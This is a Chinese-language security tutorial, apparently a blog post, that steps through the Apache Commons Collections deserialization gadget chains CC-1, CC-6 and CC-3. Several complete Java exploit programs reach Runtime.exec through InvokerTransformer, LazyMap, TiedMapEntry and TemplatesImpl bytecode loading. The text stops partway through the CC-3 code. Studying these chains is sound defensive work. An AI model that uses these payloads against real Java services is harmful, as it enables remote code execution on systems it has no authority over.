

# Java安全系列：从CC-1到CC-7的心路历程 - 先知社区

Java安全系列：从CC-1到CC-7的心路历程

- - -

## 前言

我们在上一篇详细学习了URLDNS利用链，使我们对Java反序列化的机制有了进一步的理解

Commons Collections是Apache软件基金会的一个开源项目，它提供了一组可复用的数据结构和算法的实现，旨在扩展和增强Java集合框架，以便更好地满足不同类型应用的需求。该项目包含了多种不同类型的集合类、迭代器、队列、堆栈、映射、列表、集等数据结构实现，以及许多实用程序类和算法实现。

本篇文章我们就整个cc链的分析过程写出的，并且尝试自己写出exp，而简单不是借着别人的exp反向分析。

为了方便大家理解，本篇按照CC-1->6->3->7,CC-2->4的顺序编写，以便大家在逻辑上理解。

## CC-1分析

### 分析版本

Commons Collections3.2.1

jdk8u65

### 分析过程

#### 寻找危险利用类

首先我们把目光放到Connons-Collections包下面的`Transformer`接口

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116154758-75c3b17e-8454-1.png)

然后我们找一下`Transformer`接口 的实现类有哪些

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116154803-78e1cdd2-8454-1.png)

也就13个，如果我们一个个看也不用太多时间，大家也可以自己看一下，这里的我可以直接来看InvokerTransformer这个实现类

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116154810-7d2d41aa-8454-1.png)

我们接着往下看，大约在119line处发现transform方法的始终

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116154815-7fd9b762-8454-1.png)

我们看到红框的这里，这不就是我们的反射的使用吗，如果我们可以控制这些参数，我们就可以实现任意命令的执行。

然后我们再看这些参数是怎么赋值的

```plain
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        super();
        iMethodName = methodName;
        iParamTypes = paramTypes;
        iArgs = args;
    }
```

我们从字面意思也知道String methodName是方法名，Class\[\] paramTypes是参类型，Object\[\] args就是参数了

我们之前学反射的时候，我们是这样利用Runtime类的

```plain
Runtime r=Runtime.getRuntime();
 Class c=r.getClass();
 Method m=c.getMethod("exec", String.class);
 m.invoke(r,"calc");
```

同理可得

```plain
Runtime r=Runtime.getRuntime();
InvokerTransformer invokerTransformer=new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}); 
invokerTransformer.transform(r);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116154823-84a1b7ae-8454-1.png)

#### 调用链构造

我危险利用类找到了，下面我们就要找整个链的入口在哪，在向入口处摸索的时候，我们接着就可以把整给利用链的逻辑个给摸索明白了。

我们已经找到了危险方法就是InvokerTransformer中的transform，我们顺藤摸瓜，看看那个类下得那个方法调用了同名的transform方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116154829-88a041fe-8454-1.png)

找到**TransformedMap**类，**TransformedMap** 是用于对 Java 标准数据结构 Map 进行修饰的工具。当一个 Map 被修饰成 **TransformedMap** 后，在添加新元素时，可以执行一个回调操作。构造方法的访问权限是 protected，因此需要使用 decorate 方法来创建对象。decorate 方法接受一个 Map 对象和两个转换器（transformer）对象作为参数，用于将普通的 Map 对象修饰成 **TransformedMap** 对象。

一共又三个方法调用了**transform**方法

```plain
protected Object transformKey(Object object) {
        if (keyTransformer == null) {
            return object;
        }
        return keyTransformer.transform(object);
    }

......

    protected Object transformValue(Object object) {
        if (valueTransformer == null) {
            return object;
        }
        return valueTransformer.transform(object);
    }

......

    protected Object checkSetValue(Object value) {
        return valueTransformer.transform(value);
    }
```

我们先看第一个方法，他是protected类型的方法，不能直接直接在外部调用同时我们要让**keyTransformer**为**InvokerTransformer**的实例对象

```plain
public Object put(Object key, Object value) {
        key = transformKey(key);
        value = transformValue(value);
        return getMap().put(key, value);
    }
```

通过put调用transformKey，然后通过**TransformedMap**对**keyTransformer**和**valueTransformer**赋值

```plain
protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        super(map);
        this.keyTransformer = keyTransformer;
        this.valueTransformer = valueTransformer;
    }
```

同样的**TransformedMap**也是**protected**类型的构造方法，我们网上看

```plain
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        return new TransformedMap(map, keyTransformer, valueTransformer);
    }//map是一个Map类，我就要写一个HashMap的实例，
```

decorate可以直接被外部调用，然后`return new TransformedMap(map, keyTransformer, valueTransformer);`成功调用到此构造方法，顺理成章的赋值**keyTransformer**和**valueTransformer**。

一切都很顺利，但是我们如继续深究transformKey的利用，发现是没有尽头的，到不了readObject方法，我们来看**checkSetValue**方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116154839-8e182638-8454-1.png)

到这里我们的**调用链**就变成了

```plain
Runtime r=Runtime.*getRuntime*();
InvokerTransformer invokerTransformer=new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
 HashMap<Object,Object> map=new HashMap<>(); 

 Map<Object,Object> transformedmap=TransformedMap.decorate(map,null,invokerTransformer);
```

同样的我们还是看谁调用了**checkSetValue**

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116154845-91d44b1c-8454-1.png)

发现是

**AbstractInputCheckedMapDecorator**抽象类下的（**TransformedMap**继承了**AbstractInputCheckedMapDecorator**抽象类）**setValue**方法。不过我们的最终结果是要找**readObject**方法，最好这个**readObject**方法中恰好可以调用到同名函数**setValue**

于是乎他来了

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116154850-94b16a18-8454-1.png)

我们寻找后发现**AnnotationInvocationHandler**这个类中看到有个调用了**setValue**方法的**readObject**方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116154907-9eee6ce2-8454-1.png)

我们在这个方法中可以看到我们需要或者说我们想要控制的点是Map，因为readObject方法中

```plain
for (Map.Entry<String, Object> memberValue : memberValues.entrySet())
....
memberValue.setValue()
```

是一个Map.Entry的形式，然后在遍历map。使用了setValue，所以我们就要去控制Map

我们看的该类的构造方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116154913-a27db692-8454-1.png)

我们在构造函数中发现Map可以被我们完全控制，`Map<Object,Object> transformedmap = TransformedMap.decorate(map,null,invokerTransformer);`同时我们要注意AnnotationlnvocationHandler类是一个`default`，所以我们只能通过反射来获得类的实例对象。

```plain
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor ann=c.getDeclaredConstructor(Class.class,Map.class);
ann.setAccessible(true);
Object annIns=ann.newInstance(Override.class,transformedmap);
```

于是乎我们构造的完整的exp就是如下的情况

```plain
package org.example;


import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class CommonscollectionsTest {
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException, IOException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

    public static void main(String[] args) throws Exception {
        Runtime r=Runtime.getRuntime();
        InvokerTransformer invokerTransformer=new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}); //方法名为exec，参数类型为String，参数值为calc
        HashMap<Object,Object> map=new HashMap<>();
        map.put("k","v");
        Map<Object,Object> transformedmap=TransformedMap.decorate(map,null,invokerTransformer);
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ann=c.getDeclaredConstructor(Class.class,Map.class);
        ann.setAccessible(true);
        Object annIns=ann.newInstance(Override.class,transformedmap);
        serialize(annIns);
        unserialize("ser.bin");
    }
}
```

但是这样调用并不成功，这事为什么呢？

#### 发现问题，解决问题

##### 问题一

首先第一个问题就是

我们调用的`Runtime`类是不能实例化的

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116154924-a95cb86e-8454-1.png)

但是他的原型类Class是可以被序列化的

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116154929-abfecbf2-8454-1.png)

我们先看如何通过反射的方式来获取，Runtime的class属性入手进行反射。

```plain
Class c = Runtime.class;
Method getRuntimeMethod = c.getMethod("getRuntime",null);
Runtime r = (Runtime) getRuntimeMethod.invoke(null,null);
Method execMethod = c.getMethod("exec",String.class);
execMethod.invoke(r,"calc");
```

我们的逻辑是一样的，我们就看如何通过`InvokerTransformer`类中的`transform`方法来实现整个反射过程的实现

```plain
Class c=Class.forName("java.lang.Runtime");//获得Runtime.class
        Method in =(Method)new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(c);//获得getRuntime
        Runtime runtime =(Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}).transform(in);//invoke方法调用getRuntime方法，因为Runtime类是单例模式，从而获得实例对象
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(runtime);//这里就从我们上面获得的实例对象，利用transform自带的反射据可以获得exec方法。
```

我们也可以通过ChainedTransformer类下的，transform进行遍历

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155009-c3f58cf0-8454-1.png)

```plain
Transformer[] Transformers=new Transformer[]{
        new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
        new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
};
ChainedTransformer chainedTransformer= new ChainedTransformer(Transformers);
```

##### 问题二

我们回头看一下我们的利用类的readObject方法。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155014-c6ccdfaa-8454-1.png)

我们必须要过这个两个if才能到下面的`memberValue.setValue`.

我们先来看第一个if

```plain
String name = memberValue.getKey();
Class<?> memberType = memberTypes.get(name);
```

遍历memberValue的的键值对，然后.`getKey()`获得memberValue的键值然后赋值给name，而memberValue对应的就是我们transformedmap传进去的map，`memberTypes.get(name);`这句代码的意思就是我们通过get()方法来寻找memberTypes中是否有name。

```plain
annotationType = AnnotationType.getInstance(type);
...
Map<String, Class<?>> memberTypes = annotationType.memberTypes();
```

在这里type就是我们传入的Override.class

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155020-ca7aa114-8454-1.png)

所以我们要找到一个带有常见成员变量名的注解，

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155024-cca29f6e-8454-1.png)

Target中有个名为value的成员变量,所以我们把我们传入我map的键值改成value，从而通过if

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155028-cf5b35b8-8454-1.png)

不再是null。

##### 问题三

```plain
memberValue.setValue(
                        new AnnotationTypeMismatchExceptionProxy(
                            value.getClass() + "[" + value + "]").setMember(
                                annotationType.members().get(name)));
```

这里调用的setValue参数并不是我们想要的那个参数，所以传到的checkSetValue方法的参数value变成了这样的

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155034-d2a148ca-8454-1.png)

我们必须解决这个问题。解决方法如下

我们可以利用ConstantTransformer类

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155037-d4e6c4fc-8454-1.png)

这个类就比较方便，不论我们输出什么，他都会返回我们的的输出。这样的们就可以用这个类的transform

```plain
Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),//添加这段
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
```

我们动调一下。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155043-d835fa2e-8454-1.png)

当我们第一次调用`iTransformers[i].transform(object);`时，会这些ConstantTransformer类的transform返回iConstant（我们可以输入可控，这里来我们就输入Runtime.class）然后`object = iTransformers[i].transform(object);`将iConstant赋值给object这样再次到`iTransformers[i].transform(object);`的时候就变成了`iTransformers[i].transform(Runtime.class);`

### 完整exp

```plain
package org.example;


import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class CommonscollectionsTest {
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException, IOException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

    public static void main(String[] args) throws Exception {

        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})};
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);


        HashMap<Object, Object> map = new HashMap<>();
        map.put("value", "v");
        Map<Object, Object> transformedmap = TransformedMap.decorate(map, null, chainedTransformer);
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ann = c.getDeclaredConstructor(Class.class, Map.class);
        ann.setAccessible(true);
        Object annIns = ann.newInstance(Target.class, transformedmap);
        serialize(annIns);
        unserialize("ser.bin");
    }
}
```

当我们上面简述的版本时国内大佬的版本，这个版本是通过Transformedmap类来调用tranforms方法的，

原始（ysoserial）版本时利用的`LazyMap.get()`，然后通过`readObject`里面调用代理类代理触发`annotationInvocation`类中的`invoke`方法

**调用链**

```plain
ObjectInputStream.readObject()
    AnnotationInvocationHandler.readObject()
        Map(Proxy).entrySet()
            AnnotationInvocationHandler.invoke()
                LazyMap.get()
                    ChainedTransformer.transform()
                        ConstantTransformer.transform()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Class.getMethod()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Runtime.getRuntime()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Runtime.exec()
```

```plain
public static void main(String[] args) throws Exception {
        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object, Object> Lazymap = LazyMap.decorate(map, chainedTransformer);


        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        annotationInvocationhdlConstructor.setAccessible(true);
        InvocationHandler h = (InvocationHandler) annotationInvocationhdlConstructor.newInstance(Target.class, Lazymap);

        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, h);

        Object o = annotationInvocationhdlConstructor.newInstance(Override.class, mapProxy);

        serialize(o);
        unserialize("ser.bin");
    }
```

## CC-6分析

### 分析版本

Commons Collections3.2.1

jdk8u71

### 分析过程

#### 版本修改

在JDK-8u71版本之后，cc-1的关键漏洞点AnnotationInvocationHandler.java的readObject方法做出了一下修改

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155056-dfe814b4-8454-1.png)

修改成

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155059-e1e7d4fc-8454-1.png)

删除了原有的`memberValue.setValue`着到这我们调用到`TransformedMap`的checkSetValue，所以整个CC1（TransformedMap）调用链的前半部分直接斩断，同时CC1（LazyMap）`` `使用了 ``put\`对类进行传参，前部也直接不能用了，但是此版本的修改并不影响LazyMap.get()以后的利用。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155105-e524d99e-8454-1.png)

红框处不能使用

这时候我们想起了我们在打URLDNS这条链子的时候使用的入口类——HashCoad

#### 调用链构造

我们知道，HashCoad类的readObject方法里面put中的hash方法调用，hash方法在调用到hashCode。

既然这样那我们下一步的思路就行如何寻找那个类的hashCode可以调用到get方法。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155109-e7fef5e6-8454-1.png)

我们来看TiedMapEntry类中的hashCode方法，

```plain
public int hashCode() {
        Object value = getValue();
        return (getKey() == null ? 0 : getKey().hashCode()) ^
               (value == null ? 0 : value.hashCode()); 
    }
```

跟进一下getValue()方法

```plain
public Object getValue() {
        return map.get(key);
    }
```

调用了map的get(key)方法，我们在找一下这个map和这个key

```plain
public TiedMapEntry(Map map, Object key) {
        super();
        this.map = map;
        this.key = key;
    }
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155115-eb7a5ee0-8454-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155119-ed668aee-8454-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155122-ef9f604c-8454-1.png)

containsKey判断键值，我们把key写成个随意的让其判断为false从而调用到`factory.transform(key);`而这里的factory就是要等于`chainedTransformer`这块上面也讲到了。

至此我们一定大体理解了这个CC-6这条链子的思路，我们尝试着去写一下exp

```plain
public static void main(String[] args) throws Exception{
        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer cha = new ChainedTransformer(Transformers);

        HashMap<Object,Object> m1 = new HashMap<>();//设置一个空的map以便过map.containsKey
        Map<Object,Object> Lazymap = LazyMap.decorate(m1,cha);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"zxh");//LazyMap.get()这个方法的调用本来就没有参数，所以我们第二个参数为就随便写即可

        HashMap<Object,Object> m2 = new HashMap<>();
        m2.put(tiedMapEntry,"lituer");//触发hash()

    }
```

在执行的时候我们发现成功弹出了计算器，但是这并不是我们想要的结果，我们先要的是在序列化的时候不弹出计算机，在反序列化的时候就弹出计算器执行命令，但现在的情况却恰恰相反，这一幕和URLDNS这条链何其相似。

甚至修改的思路都是差不多的。

因为我们调用了put方法会一直执行的到危险函数，所以我们需要就行将序列化过程中的某个关键参数改变，然后再序列化过程完毕之后再听过反射的方法修改过来。

```plain
public static void main(String[] args) throws Exception{
        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer cha = new ChainedTransformer(Transformers);

        HashMap<Object,Object> m1 = new HashMap<>();//设置一个空的map以便过map.containsKey
        Map<Object,Object> Lazymap = LazyMap.decorate(m1,new ConstantTransformer(1234));

        TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"zxh");//LazyMap.get()这个方法的调用本来就没有参数，所以我们第二个参数为就随便写即可

        HashMap<Object,Object> m2 = new HashMap<>();
        m2.put(tiedMapEntry,"lituer");//触发hash()
        serialize(m2);
        //序列化过程结束

        Field factoryFied = LazyMap.class.getDeclaredField("factory");
        factoryFied.setAccessible(true);
        factoryFied.set(Lazymap,cha);

    }
```

但是这样还是执行不成功

来看下一步原因，问题出现再LazyMap类下的get方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155132-f55c9d1a-8454-1.png)

当序列化的时候，我们是可以过if的，但是下面的红框中，又调用了一边put方法，这样就把我们的这个key写入到了map里面，当我们反序列化的时候，同样的过程同样的key，又要在序列化的时候put将这个key写入了map，所以map.containsKey(key)就为ture了，就过不了if了

解决这个问题的方法很简单，删了这个key不久完了吗

```plain
LazyMap.remove("lky");
```

我们在要序列化过程走完之后删除这个参数就行了

### 完整exp

```plain
package org.example;


import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CommonscollectionsTest {
    public static void main(String[] args) throws Exception{
        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer cha = new ChainedTransformer(Transformers);
        HashMap<Object,Object> m1 = new HashMap<>();//设置一个空的map以便过map.containsKey
        Map<Object,Object> Lazymap = LazyMap.decorate(m1,new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"lky");//LazyMap.get()这个方法的调用本来就没有参数，所以我们第二个参数为就随便写即可
        HashMap<Object,Object> m2 = new HashMap<>();
        m2.put(tiedMapEntry,"lituer");//触发hash()
        //序列化过程结束
        Lazymap.remove("lky");
        //删除key
        Field factoryFied = LazyMap.class.getDeclaredField("factory");
        factoryFied.setAccessible(true);
        factoryFied.set(Lazymap,cha);
        serialize(m2);
        unserialize("ser.bin");
    }
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## CC-3分析

CC-3这条链子的思路是用了我们一开始学的java的类的动态加载，如果我们的链子总是依赖ChainedTransformer的transform方法，利用反射将多个Invoketranfoemer来进行的执行命令这样的思路，要是Invoketranfoemer类进入了黑名单，这样整条链子就不能用了。

为了摆脱这样的限制，CC-3链子的这种思路就应运而生了。

### 类的动态加载

我们在写第一篇的时候也详细的分析了，这里也就是简单提一些对本链子理解有助的内容。我们把目光放到ClassLoader中，Java在加载类的时候都会进行这些流程

```plain
ClassLoader ->SecureClassLoader->URLClassLoader->AppClassLoader
ClassLoader.loadClass - > ClassLoader.findClass - > ClassLoader.defineClass
```

其中

loadClass方法的作用的是从已经加载的类的缓存或者父加载器等地方寻找类，在尚未找到的情况先就会调用findClass方法。

findClass方法使类的字节码可以从多个来源加载，包括本地文件系统、jar包以及远程http服务器。之后，这些字节码将被传递给`defineClass`方法进行处理。

defineClass方法作用是处理前面传入的字节码。也是我们最终要调用的目标，我们就可以听过defineClass来加载任意.class。

我们可以用反射的方法调用ClassLoader.defineClass来进行加载任意字节码。

```plain
public static void main(String[] args) throws Exception {

        ClassLoader classLoader = ClassLoader.getSystemClassLoader();
        Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass",String.class,byte[].class, int.class, int.class);
        defineClassMethod.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("D:\\IdeaProjects1\\untitled1\\out\\production\\untitled1\\Student.class\\"));
        Class aClass = (Class) defineClassMethod.invoke(classLoader,"Student",code,0,code.length);
        aClass.newInstance();
    }
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155144-fc7d2358-8454-1.png)

### 分析过程

#### 寻找危险利用方法

再ClassLoader类中，我们可以看的defineClass是protected类型，同时ClassLoader是一个抽象和类，所以我们就要再ClassLoader的子类中找到调用defineClass的地方。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155147-fe7b83fc-8454-1.png)

于是找到TemplatesImpl类，TemplatesImpl类 里面定义了一个内部类TransletClassLoader继承了ClassLoader，恰好TransletClassLoader内部类中重写了defineClass方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155151-00d039c2-8455-1.png)

但是这个是一个default类型的方法，我们还是无法直接使用，但是从protect变成了default类型，最少可以被类的外部调用了，我们再网上溯源一下哪里调用了defineClass。

我们跟进到defineTransletClasses方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155156-037e10cc-8455-1.png)

这个方法调用了defineClass，但是defineTransletClasses方法还是一个private，我们还是无法调用我们继续往上看那个位置调用了defineTransletClasses

跟进到getTransletInstance

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155200-064717b8-8455-1.png)

继续跟进

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155204-08691492-8455-1.png)

终于到了newTransformer()方法，总是找到了public类型的方法，到这我里我们先归纳一下这一部分的链子

```plain
TemplatesImpl.newTransformer() -> TemplatesImpl.getTransletInstance() -> TemplatesImpl.defineTransletClasses() -> TransletClassLoader.defineClass()
```

然后我们再来解决参数传入的问题。

我们传入参数要注意两个问题，一个就是对我们代码执行提供直接性作用的参数，第二个问题就是要保证我们的代码顺利执行下去不报错。

在代码执行到`_class[i] = loader.defineClass(_bytecodes[i]);`之前，about401line，`_tfactory.getExternalExtensionsMap()`的使用，我们可以直接将`_tfactory`变量赋值成TransformerFactoryImpl类避免报错。还要传入`_name`然后再是传入`_bytecodes`我们要加载的恶意类的字节码

我们发现`private byte[][] _bytecodes = null` `_bytecodes`是二维byte这里我们让一维byte等于恶意类的字节码，然后再以数组的形似套上一层。

```plain
byte[] code = Files.readAllBytes(Paths.get("xxx“));
byte[][] codes = {code};·
```

当我们在调试的时候发现代码在`_auxClasses.put(_class[i].getName(), _class[i]);`处抛出异常。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155212-0d78308a-8455-1.png)

classCount的值是1，导致`_auxClasses`就成了null，而这段`if (superClass.getName().equals(*ABSTRACT_TRANSLET*))`superClass是我们写入危险类的父类，而这段代码要求superClass为`ABSTRACT_TRANSLET`(`private static String ABSTRACT_TRANSLET = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";`)才返回真，我们的目标就是不执行下面的else，同时\_transletIndex < 0才不会，所以我们将我们的危险类继承com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155216-0faba90e-8455-1.png)

```plain
public static void main(String[] args) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        Class tc = templates.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates,"lituer");
        Field bytecodeField = tc.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("D:\\IdeaProjects1\\untitled2\\target\\classes\\org\\example\\calc.class"));
        byte[][] codes = {code};
        bytecodeField.set(templates,codes);
        Field tfactoryField = tc.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates,new TransformerFactoryImpl());

        templates.newTransformer();
    }
```

#### 寻找入口

我们只要再找到可以调用到newTransformer方法即可，(其实到这里我们也可以用cc1的链子来嫁接)，TrAXFilter类，它的构造方法可以直接调用newTransformer

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155223-139e2186-8455-1.png)

我们要想调用TrAXFilter的构造方法必须要实例化，我们不能再exp中单独new这个类，这样就不连贯，我们找到

InstantiateTransformer下的transform通过过反射获得类的构造方法然后调用newInstance调用构造方法。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155230-1833e9ec-8455-1.png)

后面再嫁接cc1的ChainedTransform.transform思路，链子就构造成功了。

### 完整exp

```plain
package org.example;


import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.LazyMap;


import javax.xml.transform.Templates;
import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class CommonscollectionsTest {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        Class templatesClass = templates.getClass();
        Field nameField = templatesClass.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates,"lituer");
        Field bytecodeField = templatesClass.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("D:\\IdeaProjects1\\untitled2\\target\\classes\\org\\example\\calc.class"));
        byte[][] codes = {code};
        bytecodeField.set(templates,codes);
